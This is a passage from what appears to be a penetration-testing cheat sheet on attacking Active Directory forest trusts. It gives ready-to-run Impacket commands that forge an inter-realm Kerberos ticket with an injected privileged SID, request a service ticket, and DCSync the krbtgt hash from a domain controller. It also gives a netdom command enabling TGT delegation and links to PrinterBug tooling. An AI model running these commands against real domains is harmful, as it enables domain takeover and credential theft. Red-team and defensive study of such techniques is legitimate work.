 ### Inter-Realm TGT Forging

Manually craft an IR TGT injecting a privileged SID (example for `WITHIN_FOREST` trust but can also be adopted for `TREAT_AS_EXTERNAL` [case](#attack-forest-trusts)):

```
$ ticketer.py -spn 'krbtgt/MEGACORP.LOCAL' -nthash <MEGACORP_LOCAL_TRUST_NTHASH> -domain child.megacorp.local -domain-sid <CHILD_MEGACORP_LOCAL_SID> -extra-sid <MEGACORP_LOCAL_SID>-516,S-1-5-9 [-groups 516] [-user-id <MEGACORP_LOCAL_DC01_RID>] 'DC01$'
```

Request an ST for DCSync:

```
$ KRB5CCNAME='DC01$.ccache' getST.py -spn 'CIFS/DC02.megacorp.local' -k -no-pass megacorp.local/'DC01$' -dc-ip 192.168.1.11 -debug
```

DCSync:

```
$ KRB5CCNAME='DC01$_CIFS_DC02.ccache' secretsdump.py -k -no-pass DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -debug
```




## UnD + PrinterBug

- [https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
- [https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
- [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
- [https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe](https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe)

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/kud.md" %}
[kud.md](kud.md)
{% endcontent-ref %}

Can be abused either if **CVE-2019-0683** is not fixed or if `EnableTGTDelegation` is enabled for the trusted forest:

```
Cmd > netdom.exe trust forestB.net /domain:forestA.net /EnableTGTDelegation:Yes
```




## Attack Forest Trusts
